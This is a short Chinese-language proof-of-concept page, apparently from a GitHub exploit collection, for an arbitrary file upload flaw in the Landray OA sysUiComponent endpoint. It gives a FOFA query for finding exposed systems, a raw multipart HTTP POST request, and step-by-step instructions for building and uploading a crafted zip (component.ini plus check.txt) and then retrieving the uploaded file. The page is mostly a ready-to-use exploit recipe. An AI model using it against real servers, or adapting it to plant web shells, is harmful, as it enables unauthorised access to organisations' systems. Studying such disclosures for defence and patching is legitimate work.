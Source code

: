 ## 蓝凌OAsysUiComponent 文件存在任意文件上传漏洞

## fofa
```
app="Landray-OA系统"

```


## poc
![c9857f5370d4abd1547fa7cb1988a18a](https://github.com/wy876/POC/assets/139549762/ee361dae-cfa2-4eae-910f-501331731347)

```
POST /sys/ui/sys_ui_component/sysUiComponent.do?method=getThemeInfo&s_ajax=true HTTP/1.1
Host: IP:PORT
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Referer: http://.com/sys/ui/sys_ui_component/sysUiComponent.do?method=upload
Content-Length: 474
Content-Type: multipart/form-data; boundary=---------------------------15610248407689
Cookie: SESSION=YmI0OGMyZDQtZDE0NC00MTQ2LWJmMzMtNWE5NDMwOTYxM2Ex
DNT: 1
Connection: close

-----------------------------15610248407689
Content-Disposition: form-data; name="file"; filename="test.zip"
Content-Type: application/x-zip-compressed

PKx3;x4;x14;
-----------------------------15610248407689
```
## 漏洞复现
创建component.ini文件，内容为：
```
id=2023
name=check.txt
```
创建上传check.txt文件
```
1111
```
然后使用压缩软件，将两个文件压缩成一个压缩包，文件名check.zip


最后上传即可。上传成功后访问路径/resource/ui-component/2023/check.txt


## 漏洞来源
```
https://mp.weixin.qq.com/s/xhwmFuItG8ZoiuGrwR5bnw
```


